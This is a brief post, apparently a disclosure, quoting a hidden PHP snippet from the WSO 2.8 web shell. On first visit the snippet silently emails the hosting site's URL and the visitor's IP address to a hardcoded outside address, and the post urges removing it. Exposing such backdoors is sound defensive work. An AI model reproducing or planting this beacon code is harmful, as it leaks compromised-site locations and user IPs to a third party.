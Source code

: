 In WSO 2.8
<pre>
$visitc = $_COOKIE["visits"];
if ($visitc == "") {
  $visitc  = 0;
  $visitor = $_SERVER["REMOTE_ADDR"];
  $web     = $_SERVER["HTTP_HOST"];
  $inj     = $_SERVER["REQUEST_URI"];
  $target  = rawurldecode($web.$inj);
  $judul   = "WebShell http://$target by $visitor";
  $body    = "Bug: $target by $visitor<br>";
  if (!empty($web)) { @mail("f3d0s3rv3r@hotmail.com",$judul,$body); }
}
else { $visitc++; }
@setcookie("visitz",$visitc);



Kill f3d0s3rv3r@hotmail.com
Source> https://code.google.com/u/104375330723671482720/
